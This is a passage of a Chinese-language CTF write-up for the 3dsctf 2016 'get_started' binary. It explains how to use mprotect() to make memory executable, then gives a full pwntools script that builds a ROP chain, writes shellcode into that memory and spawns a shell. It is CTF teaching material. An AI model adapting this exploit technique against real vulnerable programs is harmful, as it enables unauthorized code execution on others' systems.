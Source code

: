 ![](img/372654a9c620e76efc74ce38de256d24.png)

故考虑使用`mprotect()`修改内存段权限为可读可写可运行后在上面写入shellcode并跳转至内存段执行shellcode以getshell

在**pwndbg**中使用`vmmap`查看可以用的内存段，前面三个段随便选一个就行

![image.png](img/d84514ccfd9d412ace48793db571a6d3.png)

需要注意的是我们需要手动将`mprotect()`的参数弹出（日常踩坑）

```
from pwn import *

p = process('./get_started_3dsctf_2016')
e = ELF('./get_started_3dsctf_2016')

pop_ebx_esi_edi_ebp_ret = 0x804951c
mprotect_addr = e.sym['mprotect']
read_addr = e.sym['read']
sc_addr = 0x80ec000
offset = 0x38

payload1 = b'A'*offset + p32(mprotect_addr) + p32(pop_ebx_esi_edi_ebp_ret) + p32(sc_addr) + p32(0x100) + p32(0x7) + p32(0xdeadbeef)  + p32(read_addr) + p32(sc_addr) + p32(0) + p32(sc_addr) + p32(0x100)

payload2 = asm(shellcraft.sh())

p.sendline(payload1)
sleep(1)
p.sendline(payload2)
p.interactive() 
```
